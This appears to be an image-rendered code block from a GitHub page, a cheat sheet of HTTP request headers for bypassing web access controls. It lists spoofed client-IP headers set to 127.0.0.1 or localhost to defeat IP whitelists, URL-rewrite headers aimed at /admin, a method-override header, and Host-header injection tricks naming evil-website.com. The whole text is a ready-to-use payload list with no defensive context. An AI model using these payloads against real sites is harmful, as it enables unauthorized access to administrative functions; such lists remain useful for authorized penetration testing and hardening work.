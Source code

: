 ```bash
# Whitelisted IP 127.0.0.1 or localhost
Client-IP: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For: localhost
Forwarded: 127.0.0.1
Forwarded: localhost
True-Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forward: 127.0.0.1
X-Forward: localhost
X-Forwarded-By: 127.0.0.1
X-Forwarded-By: localhost
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For-Original: localhost
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: localhost
X-Forwarded-Server: 127.0.0.1
X-Forwarded-Server: localhost
X-Forwarded: 127.0.0.1
X-Forwarded: localhost
X-Forwared-Host: 127.0.0.1
X-Forwared-Host: localhost
X-Host: 127.0.0.1
X-Host: localhost
X-HTTP-Host-Override: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-Addr: localhost
X-Remote-IP: 127.0.0.1

# Fake Origin - make GET request to accesible endpoint with:
X-Original-URL: /admin
X-Override-URL: /admin
X-Rewrite-URL: /admin
Referer: /admin
# Also try with absolute url https:/domain.com/admin

# Method Override
X-HTTP-Method-Override: PUT

# Provide full path GET
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com

# Add line wrapping
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
```
